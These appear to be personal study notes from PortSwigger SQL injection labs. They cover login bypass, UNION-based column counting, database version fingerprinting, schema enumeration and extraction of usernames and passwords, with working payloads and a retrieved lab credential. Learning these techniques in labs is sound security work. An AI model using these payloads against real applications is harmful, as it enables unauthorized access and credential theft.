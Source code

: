 # SQL injection

CheatSheet: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## **Retrieving hidden data - Vulnerability in WHERE clause allowing retrieval of hidden data**

In GET Query parameter just add ‘OR 1=1—

```
/filter?category=Accessories' OR 1=1--
```

## ****Subverting application logic - SQL injection vulnerability allowing login bypass****

Request body:

```
csrf=SguQ2lewWGmFunaO60b4dDvxLLm0Ndq7&username=administrator'--&password=peter
```

query would look like:

```
 SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## UNION Attacks

*NOTE*:

- Some of the end char can not work so if “ - - “ doesn’t work you should try #

1. Determine number of columns
    
    ```
    ‘order by x—
    ```
    
    x - column number
    
    do until you hit internal server error
    
2. Determine the data types of the columns
    
    ```
    ‘union select ‘a’, NULL—
    ```
    
    if you see that types are string but you still get internal server error, that means that you are breaking into Oracle database
    
    for Oracle you should use like this: ‘union select ‘a’, ‘a’ from DUAL—
    
3. Checking database version
    
    ```
    ‘ UNION SELECT VERSION()— (mysql)
    ```
    
    ```
    ‘ UNION SELECT version FROM v$instance  || ‘ UNION SELECT banner FROM v$version
    ```
    
    NOTE: keep in mind if there is more than one column, then you have to pass nullable to other columns, example (two columns):
    
    ```
    ‘ UNION SELECT banner, NULL FROM v$version
    ```
    
4. Output table name (every single db outputs differently) in this case i’ll provide postgres (other things you can find in cheatsheet)
    1. Finding version
        
        ```
        ' UNION SELECT version(), NULL--
        ```
        
    2. Output the list of table names in the database
        
        ```
        ' UNION SELECT table_name, NULL FROM information_schema.tables-- (in my case was users_kxcfuq)
        ```
        
    3. Output the column names of the table
        
        ```
        ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_kxcfuq'-- (username_qbheac, password_gjnzjk)
        ```
        
    4. Output the usernames and passwords
        
        ```
        ' UNION select username_qbheac, password_gjnzjk from users_kxcfuq-- (administrator, 372c1ao9kijiug5t02h0)
        ```
        

*NOTE*:

AND 0 ignores first table result, throws false to first query/statement

```
‘ AND 0 Union SELECT 1, 2, 3, 4, password, date() FROM users WHERE email = "admin@viking.bank"--
```

```
‘ UNION SELECT NULL, NULL, NULL, NULL, NULL—
```